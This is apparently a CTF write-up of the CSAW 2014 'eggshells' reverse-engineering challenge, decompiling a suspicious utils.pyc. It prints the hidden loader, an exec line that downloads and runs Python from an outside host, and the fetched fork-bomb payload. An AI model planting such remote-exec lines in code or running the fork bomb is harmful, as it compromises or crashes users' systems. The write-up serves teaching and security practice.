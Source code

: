 Title:  CSAW CTF 2014 - Reverse Engineering 100: "eggshells"
Date: 2014-09-22 9:20
Category: Reverse Engineering
Tags: CTF, CSAW, uncompyle2



This is the first exploitation problem and it starts with the following text:

> I trust people on the Internet all the time, do you?
>
> Written by ColdHeat
>
> eggshells-master.zip



## Unzipping and Analyzing the Files

Let’s unzip the provided zip file:

```sh
$ unzip eggshells-master.zip
```

This creates a directory called *eggshells-master* that contains several *Python* and *exe* files. Let us look closer to the contend of this folder:

```sh
$ tree .
├── capstone.py
├── distorm.py
├── interpreter.py
├── main.py
├── nasm
│   ├── LICENSE
│   ├── nasm.exe
│   ├── ndisasm.exe
│   └── rdoff
│       ├── ldrdf.exe
│       ├── rdf2bin.exe
│       ├── rdf2com.exe
│       ├── rdf2ihx.exe
│       ├── rdf2ith.exe
│       ├── rdf2srec.exe
│       ├── rdfdump.exe
│       ├── rdflib.exe
│       └── rdx.exe
├── nasm.py
├── server.py
├── shellcode.py
├── utils.pyc
└── wrapper.py
```

Do you see anything unusual?


## Decompiled a pre-compiled Python File

A pre-compiled Python file stands out in this list: *utils.pyc*. We need to decompile it. For this task we use  [uncompyle2], which can be installed with:

```sh
$ sudo pip install uncompyle2
```

Let's learn a bit more about this tool with ```uncompyle2 --help```. The usage is straightfoward, but it's a good knowledge to learn about the *-o* flag, which will decompile to a *.dis* file instead of *stdout*:

```sh
Usage: uncompyle2 [OPTIONS]... [ FILE | DIR]...

Examples:
  uncompyle2      foo.pyc bar.pyc       # decompile foo.pyc, bar.pyc to stdout
  uncompyle2 -o . foo.pyc bar.pyc       # decompile to ./foo.dis and ./bar.dis
  uncompyle2 -o /tmp /usr/lib/python1.5 # decompile whole library

Options:
  -o <path>     output decompiled files to this path:
                if multiple input files are decompiled, the common prefix
                is stripped from these names and the remainder appended to
                <path>
                  uncompyle -o /tmp bla/fasel.pyc bla/foo.pyc
                    -> /tmp/fasel.dis, /tmp/foo.dis
                  uncompyle -o /tmp bla/fasel.pyc bar/foo.pyc
                    -> /tmp/bla/fasel.dis, /tmp/bar/foo.dis
```

We could also use *.py* extension if we like:
```sh
  --py          use '.py' extension for generated files
```

Also, we learn about all the possible outputs:
```sh
 Extensions of generated files:
  '.pyc_dis' '.pyo_dis'   successfully decompiled (and verified if --verify)
  '.py'                   with --py option
    + '_unverified'       successfully decompile but --verify failed
    + '_failed'           uncompyle failed (contact author for enhancement)
```

All right, no more diverging. Let's play! We run the ```uncompyle2``` command and obtain the following:
```sh
$ uncompyle2 utils.pyc
#Embedded file name: /Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.py
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
+++ okay decompyling utils.pyc
# decompiled 1 files: 1 okay, 0 failed, 0 verify failed
```


## Parsing the Result and Voilà

So all that this file does is in this line:
```python
exec __import__('urllib2').urlopen('http://kchung.co/lol.py').read()
```

To understand this code, we need to know that Python's [exec] method performs dynamic execution of code.  In this problem, *exec* starts importing [urllib2], which is a library for opening URLs.  It has the method [urlopen()] to open the URL url, which can be either a string or a request object. This function returns a file-like object with three additional methods. Finally, [read()] would read this returned file.

So all that this script does is to try running a Python file that is hosted online!
Well, let's see what this file does! Let's just *curl* [http://kchung.co/lol.py]:

```sh
$  curl http://kchung.co/lol.py
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

Yaaay! The flag is **trust_is_risky**! Easy!

**Hack all the things!**


[uncompyle2]: https://github.com/gstarnberger/uncompyle
[http://kchung.co/lol.py]: http://kchung.co/lol.py
[exec]: https://docs.python.org/2/reference/simple_stmts.html#exec
[urllib2]: https://docs.python.org/2/library/urllib2.html#module-urllib2
[urlopen()]: https://docs.python.org/2/library/urllib2.html#urllib2.urlopen
[read()]: http://www.tutorialspoint.com/python/file_read.htm



----

**Love, Gratitude & Peace 🌺,**

**The Byt3girl**